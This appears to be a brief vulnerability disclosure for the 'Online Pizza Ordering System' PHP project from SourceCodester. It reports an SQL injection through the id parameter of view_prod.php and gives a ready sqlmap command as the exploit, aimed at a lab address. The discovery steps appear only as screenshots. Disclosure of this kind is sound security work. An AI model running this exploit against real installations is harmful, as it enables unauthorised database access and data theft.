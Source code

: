 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/220946328-9a6ba721-2b00-4908-9075-9c271ccb854e.png)


exp

```
sqlmap.py -u "http://192.168.31.50/php-opos/view_prod.php?id=1"
```
![image](https://user-images.githubusercontent.com/30823782/220946382-e10e03fd-3188-44c0-8dc0-3137a1f35876.png)


